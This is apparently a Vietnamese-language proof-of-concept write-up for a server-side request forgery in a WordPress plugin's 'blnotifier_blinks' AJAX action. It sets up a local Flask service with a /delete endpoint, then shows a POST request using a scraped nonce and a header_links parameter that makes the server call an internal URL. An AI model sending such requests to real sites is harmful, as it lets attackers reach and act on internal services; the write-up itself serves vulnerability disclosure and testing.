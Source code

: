 
## Exploit

### Local Server
Tạo local service đơn giản bằng python

```py
from flask import Flask, request
import os

BASE_DIR = os.path.abspath(os.getcwd())
app = Flask(__name__)

@app.route('/delete', methods=['GET'])
def delete():
    file_id = request.args.get('id')
    if not file_id:
        return "No id provided", 400
    print(f"delete it: {file_id}")
    return f"Delete it: {file_id}"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)
1. Truy cập trang chủ và lấy `nonce`

2. Gửi POST request đến endpoint

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...

action=blnotifier_blinks&nonce=87f4d1ef16&source_url=http://localhost:8001/&header_links[0]=http://127.0.0.1:8001/delete?id=1
```

**Result**:

![Result](result.png "Gửi thành công request tới local service")

